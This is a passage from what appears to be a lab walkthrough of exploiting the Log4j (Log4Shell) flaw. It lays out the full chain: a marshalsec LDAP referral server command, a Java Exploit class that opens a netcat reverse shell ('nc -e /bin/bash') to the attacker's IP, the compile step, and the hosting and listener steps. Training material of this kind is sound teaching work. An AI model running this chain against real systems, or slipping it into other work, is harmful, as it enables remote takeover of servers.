 With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server

```java
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.142.230:9999/#Exploit"
```

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

We will now create our payload that will be used to execute on the victim. The Log4j vulnerability will execute code written in Java, and in this case a Java reverse shell as shown below

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.142.230 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Once we have our code, we will compile it with the following command:

```java
javac exploit.java -source 8 -target 8
```

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

With the payload created and compiled, we can now host it by spinning up a temporary HTTP server.

![](<../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The payload is created and compiled, it is hosted with an HTTP server in one terminal, an LDAP referral server is up and waiting in another terminal -- next prepare a netcat listener to catch our reverse shell in yet another new terminal window

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)
